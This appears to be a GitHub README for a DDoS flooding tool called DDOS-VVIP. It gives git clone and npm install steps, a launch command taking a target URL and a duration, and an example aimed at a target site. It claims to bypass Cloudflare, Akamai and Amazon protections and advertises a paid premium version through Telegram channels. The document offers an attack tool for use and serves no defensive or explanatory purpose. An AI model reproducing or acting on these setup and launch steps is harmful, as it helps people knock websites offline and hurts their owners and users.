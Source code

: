 # DDOS-VVIP



git clone https://github.com/XinnChan/DDOS-VVIP






install module




apt install npm


npm i cloudscraper


npm i request


npm i child_process

npm i exec


cd && cd DDOS-VVIP


Usage: node XCDDOS-FLOOD.js URL DURATION


example: node XCDDOS-FLOOD.js https://target.com 120


.


.


.


Support Termux && VPS


.


Bypassing CF, Rule, DDG, UAM, Akamai, Amazon


.


.


Jika Di Rasa Kurang Over Power Bisa Order Versi Premium


Telegram Channel DM: https://t.me/Xin_Kenji


.


.


.


Telegram Channel DDOS: https://t.me/XC_Fixxed
Telegram Channel VPS: https://t.me/Xc_Corporation
